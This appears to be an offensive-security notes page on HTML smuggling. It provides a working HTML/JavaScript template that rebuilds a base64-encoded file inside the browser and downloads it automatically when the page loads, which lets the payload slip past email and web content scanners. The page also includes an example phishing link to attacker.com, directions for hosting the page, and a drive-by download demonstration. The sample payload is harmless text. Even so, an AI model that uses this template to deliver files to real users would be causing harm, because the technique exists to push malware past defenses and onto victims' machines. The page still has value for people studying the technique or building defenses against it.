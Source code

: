 ```yaml
---
description: 09/03/2025
---
```


# HTML Smuggling

## What is it?

HTML smuggling is a technique that uses JavaScript to hide files from content filters.&#x20;

If you send a phishing email with a download link, the `HTML` will probably look something like this:

```html
<a href="http://attacker.com/file.doc">Download Me</a>
```

### Security Implications

As a result, Email and web scanners are capable of parsing this data out and taking action upon it. They may be removed entirely, or the URL content fetched can be scanned by an AV sandbox.

### How to get Around This...

`HTML` smuggling allows us to get around this by embedding the payload into the `HTML` source code and using JavaScript to construct URLs by the browser at runtime.

### Boiler Plate Template

```html
<html>
    <head>
        <title>HTML Smuggling</title>
    </head>
    <body>
        <p>This is all the user will see...</p>

        <script>
        function convertFromBase64(base64) {
            var binary_string = window.atob(base64);
            var len = binary_string.length;
            var bytes = new Uint8Array( len );
            for (var i = 0; i < len; i++) { bytes[i] = binary_string.charCodeAt(i); }
            return bytes.buffer;
        }

        var file ='VGhpcyBpcyBhIHNtdWdnbGVkIGZpbGU=';
        var data = convertFromBase64(file);
        var blob = new Blob([data], {type: 'octet/stream'});
        var fileName = 'test.txt';

        if(window.navigator.msSaveOrOpenBlob) window.navigator.msSaveBlob(blob,fileName);
        else {
            var a = document.createElement('a');
            document.body.appendChild(a);
            a.style = 'display: none';
            var url = window.URL.createObjectURL(blob);
            a.href = url;
            a.download = fileName;
            a.click();
            window.URL.revokeObjectURL(url);
        }
        </script>
    </body>
</html>
```

#### How does it work?

As this goes "across the wire", a scanner (or other security solution) will only be capable of seeing the `HTML` and JavaScript. There are no hardcoded hyperlinks and the content type of the page itself is just `text/html`.

The encoded content in the `file` variable was created simply with:

```
ubuntu@DESKTOP-3BSK7NO ~> echo -en "This is a smuggled file" | base64
```

<figure><img src="../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

As you can see in the screenshot above, the `base64`-encoded string, `VGhpcyBpcyBhIHNtdWdnbGVkIGZpbGU=`, can be decoded to `"This is a smuggled file"`. &#x20;

### What happens when you host this HTML on a page?

Upon a victim user visiting the page, the browser will automatically reconstruct and download the file without any user interaction from the user.

The quickest way we can test this and stand this up is by using `python3 -m http.server`.&#x20;

From there, we now have a simple, insecure `HTTP` server that we can use to host this file.

Upon visiting, we see that we can perform a drive-by download-like attack as `test.txt` is automatically downloaded.&#x20;

<figure><img src="../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

**The output from the Python `HTTP` server:**

<figure><img src="../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

### MOTW Warning

Files downloaded this way will still retain the MOTW and are also subject to the typical browser restrictions (e.g. warnings when trying to download `.EXE`'s).

```
PS C:\Users\bfarmer\Downloads> gc .\test.txt -Stream Zone.Identifier
[ZoneTransfer]
ZoneId=3
ReferrerUrl=http://nickelviper.com/smuggle.html
HostUrl=http://nickelviper.com/
```
